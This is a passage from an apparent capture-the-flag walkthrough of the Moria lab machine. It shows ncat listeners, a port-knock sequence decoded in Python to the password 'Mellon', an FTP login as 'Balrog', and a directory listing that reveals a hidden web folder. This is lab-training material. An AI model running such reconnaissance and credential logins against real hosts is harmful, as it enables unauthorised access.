 Interesting, but does it change something to open these ports? Will someone speak to us ?:  
```bash
for port in 77 101 108 111 110;do xterm -T "listening on port ${port}" -hold -e ncat -klvp ${port} &;done
```  
  
In Wireshark:  
![moria3]({{ site.url }}/public/images/moria/moria3.png)  
  
**RST** packets from Moria. Let's try to port knock with the same sequence:  
```bash
knock 192.168.1.38 77 101 108 108 111 110
```  
  
... Nothing when trying to knock **77 101 108 108 111 110**... hummm...  
```python
>>> import sys
>>> for port in (77,101,108,108,111,110):sys.stdout.write(chr(port));
... 
Mellon
```  
  
'What's the Elvish word for Friend?'  
<iframe width="560" height="315" src="https://www.youtube.com/embed/wvPWJjiDwdI" frameborder="0" allowfullscreen></iframe>  
  
With this password one of the gate will open:  
  
```bash
root@kali:/tmp# ftp 192.168.1.38
Connected to 192.168.1.38.
220 Welcome Balrog!
Name (192.168.1.38:root): Balrog
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```  

Thanks to directory traversal:  
  
```bash
ftp> cd /var/www/html
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0              23 Mar 12 20:38 QlVraKW4fbIkXau9zkAPNGzviT3UKntl
-r--------    1 48       48             85 Mar 12 19:55 index.php
-r--------    1 48       48         161595 Mar 11 23:12 moria.jpg
drwxr-xr-x    3 0        0              15 Mar 12 04:50 w
226 Directory send OK.
ftp>
```  

Looking at *http://192.168.1.38/QlVraKW4fbIkXau9zkAPNGzviT3UKntl/*:  
![moria5]({{ site.url }}/public/images/moria/moria5.png)  
  